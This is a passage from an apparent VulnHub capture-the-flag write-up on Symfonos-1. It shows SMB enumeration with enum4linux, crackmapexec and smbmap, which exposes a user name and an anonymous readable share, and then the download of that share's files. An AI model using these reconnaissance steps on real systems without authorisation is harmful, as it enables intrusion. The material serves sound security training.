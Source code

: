 ## TCP/139,445 - SMB 
### Enum4linux
```
 --------------------------------------
|    Users via RPC on 192.168.236.8    |
 --------------------------------------
[*] Enumerating users via 'querydispinfo'
[+] Found 1 users via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 1 users via 'enumdomusers'
[+] After merging user results we have 1 users total:
'1000':
  username: helios
  name: ''
  acb: '0x00000010'
  description: ''
  
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\helios (Local User)
```
- `helios`

### Crackmapexec+SMBMap
```
┌──(root💀kali)-[~/vulnHub/Symfonos-1/192.168.56.123]
└─# crackmapexec smb $ip -u '' -p '' --shares
SMB         192.168.236.8   445    SYMFONOS         Share           Permissions     
SMB         192.168.236.8   445    SYMFONOS         -----           -----------     
SMB         192.168.236.8   445    SYMFONOS         print$                          
SMB         192.168.236.8   445    SYMFONOS         helios			
SMB         192.168.236.8   445    SYMFONOS         anonymous       READ            
SMB         192.168.236.8   445    SYMFONOS         IPC$                            

┌──(root💀kali)-[~/vulnHub/Symfonos-1/192.168.56.123]
└─# smbmap -H $ip 
[+] Guest session   	IP: 192.168.236.8:445	Name: unknown                                        
Disk                                                Permissions		Comment
----                                                -----------		-------
print$                                              NO ACCESS		Printer Drivers
helios                                              NO ACCESS		Helios personal share
anonymous                                           READ ONLY	
IPC$                                                NO ACCESS		IPC Service
```
- `helios`
- `anonymous`, READ 


# Initial Foothold
## TCP/139,445 - SMB Fileshare Bruteforce
1. Download all files from `anonymous` fileshare
	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-1/192.168.56.123/loot]
	└─# smbclient //$ip/anonymous -c 'prompt;recurse;mget *'
	Enter WORKGROUP\root's password: 
	getting file \attention.txt of size 154 as attention.txt (8.8 KiloBytes/sec) (average 8.8 KiloBytes/sec)
	```
2. View `attention.txt`